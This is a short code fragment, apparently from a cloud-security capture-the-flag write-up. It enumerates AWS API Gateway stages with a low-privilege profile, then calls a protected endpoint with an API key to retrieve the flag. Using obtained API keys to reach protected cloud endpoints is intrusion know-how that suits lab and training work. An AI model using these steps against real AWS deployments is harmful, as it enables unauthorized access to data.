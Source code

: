 ```bash
aws apigateway get-stages --rest-api-id 696zi4tra7 --region us-east-1 --profile sns_low

#And call it for the flag
curl -v -H "x-api-key: 45a3da610dc64703b10e273a4db135bf" https://696zi4tra7.execute-api.us-east-1.amazonaws.com/prod-cgidth6ftmf8pq/user-data

```

```

```
